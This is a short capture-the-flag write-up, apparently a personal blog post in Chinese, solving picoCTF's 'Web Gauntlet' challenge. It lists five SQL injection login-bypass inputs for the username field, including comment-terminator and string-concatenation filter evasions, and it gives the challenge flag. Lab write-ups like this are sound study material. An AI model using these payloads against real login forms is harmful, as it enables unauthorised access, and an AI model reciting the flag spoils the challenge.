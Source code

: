 ```yaml
---
layout: post
title:  "picoCTF - Web Gauntlet"
description: 
date:   2023-12-22 11:10:00 +0800
# last_modified_at:
categories: [CTF, picoCTF-Web Exploitation]
author: d13
tags: [ctf, web exploitation, picoctf]
---
```


# Question

[https://play.picoctf.org/practice/challenge/88](https://play.picoctf.org/practice/challenge/88)

# Solution


題目就是在考SQL Injection而已，filter.php那個連結會提示他過濾了那些字。但我很多題都送一樣的sql進去，反正能過關就好，也是因為我會的指令也不多就是了...

以下附上我每題的input，通通都是加在username那一欄，password隨便打：

1. `admin';--`
2. `admin';0x2d2d`
3. `admin';0x2d2d`
4. `ad'||'min';0x2d2d`
5. `ad'||'min';0x2d2d`

# Flag

picoCTF{y0u_m4d3_1t_16f769e719ab9d3e310fd13dc1262ee1}